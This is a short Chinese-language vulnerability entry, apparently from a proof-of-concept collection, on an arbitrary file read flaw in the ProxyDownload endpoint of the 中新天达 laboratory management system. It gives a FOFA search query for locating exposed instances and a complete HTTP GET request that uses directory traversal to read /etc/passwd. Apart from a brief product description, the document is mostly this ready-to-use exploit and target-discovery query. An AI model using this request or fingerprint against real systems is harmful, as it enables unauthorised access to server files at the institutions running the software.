

# 一、漏洞简介
中新天达实验室综合管理系统是整个实验室管理的基础平台，梳理并汇总全校的实验室基础数据，具体功能包括：实验室建制管理、实验室基本信息管理、实验队伍、成果管理、实验室用房、安全与环境管理、教学与工作量等.中新天达系统ProxyDownload存在任意文件读取漏洞。

# 二、影响版本
+ 中新天达实验室综合管理系统

# 三、资产测绘
+ fofa`body="aexp/ValidateImage"`
+ 特征


# 四、漏洞复现
```java
GET /aexp/ProxyDownload?path=/speedec/webapps/webftp/../../../../etc/passwd HTTP/1.1
Host: 
Priority: u=4
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
```



